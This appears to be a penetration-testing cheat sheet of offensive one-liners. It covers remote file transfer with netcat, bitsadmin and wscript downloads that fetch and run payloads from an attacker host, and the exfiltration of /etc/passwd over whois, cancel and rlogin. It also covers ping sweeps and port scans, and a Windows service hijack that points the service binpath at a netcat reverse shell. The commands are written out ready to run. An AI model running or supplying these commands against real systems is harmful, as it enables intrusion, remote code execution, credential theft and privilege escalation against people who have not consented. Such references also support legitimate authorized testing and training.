 # Victim
nc $ATTACKER 4444 > file.exe
HTTP: Windows "debug.exe" Method
# 1. In Linux, convert binary to hex ascii:
wine /usr/share/windows-binaries/exe2bat.exe /root/tools/netcat/nc.exe nc.txt
# 2. Paste nc.txt into Windows Shell.
HTTP: Windows BitsAdmin
cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://$ATTACKER/payload.exe %tmp%\payload.exe&start %tmp%\payload.exe
Wscript Script Code Download & Execution
echo GetObject("script:https://bad.com/code.js") > code.js && wscript.exe code.js
Whois Data Exfiltration
# attacker
nc -l -v -p 43 | sed "s/ //g" | base64 -d
# victim
whois -h $attackerIP -p 43 `cat /etc/passwd | base64`
Cancel Data Exfiltration
cancel -u "$(cat /etc/passwd)" -h ip:port
rlogin Data Exfiltration
rlogin -l "$(cat /etc/passwd)" -p port host
Bash Ping Sweeper
#!/bin/bash
for lastOctet in {1..254}; do 
    ping -c 1 10.0.0.$lastOctet | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1 &
done
Brute-forcing XOR'ed string with 1 byte key in Python
encrypted = "encrypted-string-here"
for i in range(0,255):
    print("".join([chr(ord(e) ^ i) for e in encrypted]))
Generating Bad Character Strings
# Python
'\\'.join([ "x{:02x}".format(i) for i in range(1,256) ])
# Bash
for i in {1..255}; do printf "\\\x%02x" $i; done; echo -e "\r"
Converting Python to Windows Executable (.py -> .exe)
python pyinstaller.py --onefile convert-to-exe.py
Port Scanning with NetCat
nc -nvv -w 1 -z host 1000-2000
nc -nv -u -z -w 1 host 160-162
Port Scanning with Masscan
masscan -p1-65535,U:1-65535 10.10.10.x --rate=1000 -e tun0
Exploiting Vulnerable Windows Services: Weak Service Permissions
# Look for SERVICE_ALL_ACCESS in the output
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
​
sc config [service_name] binpath= "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj= "LocalSystem" password= ""
sc qc [service_name] (to verify!)
sc start [service_name]
Find File/Folder Permissions Explicitly Set for a Given User
icacls.exe C:\folder /findsid userName-or-*sid /t